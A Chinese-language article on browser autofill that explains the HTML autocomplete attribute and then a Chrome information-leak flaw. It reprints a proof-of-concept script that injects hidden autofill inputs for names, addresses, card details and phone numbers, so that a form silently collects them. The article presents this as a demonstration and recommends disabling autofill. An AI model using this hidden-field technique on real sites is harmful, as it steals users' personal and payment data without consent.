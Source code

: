 # 浏览器安全机制

# AutoComplete: 自动填充

自动填充(Autofill )是个非常重要的特性，它能帮助用户节省很多填写表单的时间，Google 也曾调查得出过结论[users complete forms up to 30% faster](https://developers.google.com/web/updates/2015/06/checkout-faster-with-autofill?hl=en)。我们首先来讨论下自动填充的工作原理，以及如何构建跨浏览器的自动填充表单。

早年各个浏览器之间对于自动填充并没有统一的标准，后来 HTML5 标准中加入了对于`autocomplete`属性的支持，以协调浏览器对于表单域的识别。最初`autocomplete`属性仅支持`on`与`off`两种取值，默认情况下是会启动自动填充功能以方便浏览器会将用户提交过的表单值记录下来以便复用。后续 HTML 标准中允许加入更多的[标识值](https://html.spec.whatwg.org/multipage/forms.html#autofill)，这些标识值会更加精确地告诉浏览器应将哪些记录值对应到哪些表单。譬如我们经常需要在网页上填写地址信息，如果我们希望浏览器能够记录下常用地址信息并且自动补全，那么可以使用如下声明方式：

```html
<textarea name="shipping-address" autocomplete="shipping street-address"></textarea>
<input type="text" name="shipping-city" autocomplete="shipping address-level2">
<input type="text" name="shipping-state" autocomplete="shipping address-level1">
<input type="text" name="shipping-country" autocomplete="shipping country-name">
<input type="text" name="shipping-postal-code" autocomplete="shipping postal-code">
```

其他常见的自动填充的使用场景还包括电话号码、邮箱地址、即时通信账户等，完整的自动填充标识声明规范为：

```
[section-](optional) [shipping|billing](optional) [home|work|mobile|fax|pager](optional) [autofill field name]
```

其中`[home|work|mobile|fax|pager]`仅被用于电话、邮箱等场景。而完整的应用场景譬如是填写收货地址的收件人电话时：

```
<label for="foo">Mobile phone for delivery</label>
<input type="text" name="foo" id="foo" autocomplete="section-red shipping mobile tel">
```

最后，我们来看下自动填充在笔者电脑上的现实效果: ![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/E2941AAA-E9DC-4A9A-AA10-8506044FBBB2.png)

## 安全威胁

自动填充是个非常方便地浏览器特性，不过该特性在 Chrome 上也会存在一定的信息泄露的风险。Chrome 最近才修复了某个久负盛名[漏洞](https://yoast.com/autocomplete-security/)。简单而言，黑客能够利用自动填充窃取你并不想提交给该网站的信息，就如下面这个动图：

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-WChv_tXK8rqUASVNxrqNSw.gif)

Github 用户 [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) 使用如下脚本演示了该漏洞：

```js
var autocompletes = [
  'name',
  'honorific-prefix',
  'given-name',
  'additional-name',
  'family-name',
  'honorific-suffix',
  'nickname',
  'username',
  'new-password',
  'current-password',
  'organization-title',
  'organization',
  'street-address',
  'address-line1',
  'address-line2',
  'address-line3',
  'address-level4',
  'address-level3',
  'address-level2',
  'address-level1',
  'country',
  'country-name',
  'postal-code',
  'cc-name',
  'cc-given-name',
  'cc-additional-name',
  'cc-family-name',
  'cc-exp',
  'cc-exp-month',
  'cc-exp-year',
  'cc-csc',
  'cc-type',
  'transaction-currency',
  'transaction-amount',
  'language',
  'bday',
  'bday-day',
  'bday-month',
  'bday-year',
  'sex',
  'url',
  'photo',
  'tel',
  'tel-country-code',
  'tel-national',
  'tel-area-code',
  'tel-local',
  'tel-local-prefix',
  'tel-local-suffix',
  'tel-extension',
  'impp'
];

emailField.addEventListener('focus', function() {
  var wrap = autocompletes.reduce(function(wrapper, field) {
    var input = document.createElement('input');

    // Make them not focussable
    input.tabIndex = -1;
    input.autocomplete = field;

    wrapper.appendChild(input);
    return wrapper;
  }, document.createElement('div'));

  // Hide the wrapper
  wrap.classList.add('hidden');
  form.appendChild(wrap);

  // Inject the autocompletes once
  this.removeEventListener('focus', arguments.callee);
});
```

作者是建议大家关闭 Chrome 的自动填充功能，主要步骤为：

- 进入 Chrome 设置：`chrome://settings/autofill`
- 关闭当前模态窗口
- 反选自动填充选项

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-NKyNK5fQWXeLHLCOD_ZDaA.png)
